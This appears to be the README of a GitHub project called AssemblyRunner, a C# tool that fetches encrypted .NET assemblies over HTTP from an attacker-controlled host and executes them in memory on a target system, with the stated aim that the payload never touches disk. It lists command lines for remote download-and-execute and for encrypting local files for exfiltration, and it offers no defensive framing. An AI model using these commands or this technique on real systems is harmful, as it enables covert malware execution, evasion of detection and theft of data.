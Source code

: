 # AssemblyRunner

C# Binary that is designed to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

If performed correctly, actual executed payload is never on-disk. 



.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)

AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run

AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run

AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)

AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run

AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run

AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt

AssemblyRunner.exe -enc PASSWORD http://IP/File


--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt

AssemblyRunner.exe -file PASSWORD FILE/TO/ENC


--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt

AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
